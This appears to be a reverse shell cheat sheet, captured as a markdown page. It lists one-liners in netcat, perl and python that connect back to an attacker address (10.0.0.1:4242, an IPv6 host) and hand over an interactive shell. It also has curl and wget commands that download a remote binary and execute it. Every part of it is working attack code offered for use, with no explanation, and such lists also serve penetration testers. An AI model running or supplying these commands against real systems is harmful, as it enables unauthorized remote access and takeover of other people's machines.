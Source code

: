 ### Netcat OpenBsd
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

## curl
```bash
curl -o test.elf https://xxx.com/shell/test.elf && chmod +x test.elf && ./test.elf
```

## wget
```bash
wget http://1.1.1.1/shell
```

## Other
### perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### python

- IPv4
    ```python
    export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

    ```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
    ```

- IPv6
    ```python
    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
    ```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
